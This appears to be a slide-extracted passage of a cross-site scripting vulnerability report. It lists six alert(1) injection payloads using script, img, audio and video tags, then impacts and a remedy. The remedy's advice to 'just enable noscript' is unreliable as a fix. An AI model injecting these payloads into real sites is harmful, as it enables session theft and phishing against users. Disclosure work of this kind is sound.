

:<img src=1 href=1 onerroe="javascript:alert(1)"></img>
                :<script>alert(1)</script>
                :<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
                :<video src=1 href=1 onerror="javascript:alert(1)"></video>
                :<image src=1 href=1 onerror="javascript:alert(1)"></image>
                :<script src=1 href=1 onerror="javascript:alert(1)"></script>

PROOF OF CONCEPT: SCREEN SHOTS AND VIDEO IS ATTACHED AT THE END.
IMPACTS         : There are many different attacks that can be leverged through the use of
                  Cross site scripting, including:
                - Hijacking user's active session.
                - Mounting phishing attacks.
                - Intercepting data and performing man in the middle attacks.
REMEDY          : The issue occurs because the browser interprets the input as active HTML
                  Or JavaScript. To avoid this, output should be encoded according to the
                  Output location and context. And you can just enable noscript in it.